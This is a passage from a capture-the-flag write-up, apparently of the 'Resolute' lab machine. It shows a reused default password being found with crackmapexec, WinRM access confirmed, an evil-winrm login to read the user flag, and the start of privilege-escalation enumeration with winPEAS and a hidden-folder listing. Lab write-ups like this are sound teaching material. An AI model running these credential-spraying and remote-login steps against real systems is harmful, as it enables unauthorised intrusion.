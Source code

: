 ```bash
SMB         10.10.10.169    445    RESOLUTE         [+] megabank.local\melanie:Welcome123!                       # <---- Interesting!
```

Looks like `Marko` remebered to change his password but not `melanie`. Checked if `melanie` has WINRM access:

```bash
crackmapexec winrm 10.10.10.169 -u melanie -p 'Welcome123!'                                                          
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

Used `evil-winrm` to get the flag:

```bash
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!


*Evil-WinRM* PS C:\Users\melanie\Desktop> dir


    Directory: C:\Users\melanie\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/22/2024   4:41 AM             34 user.txt

```

# Root Flag

## Windows Privilege Escalation

Uploaded `winPEASx64.exe` but did not observe any details of interest.

## Hidden Folders

Can check for hidden folders with `ls -force`:

```bash
*Evil-WinRM* PS C:\> ls -force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        6/22/2024   5:46 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
```
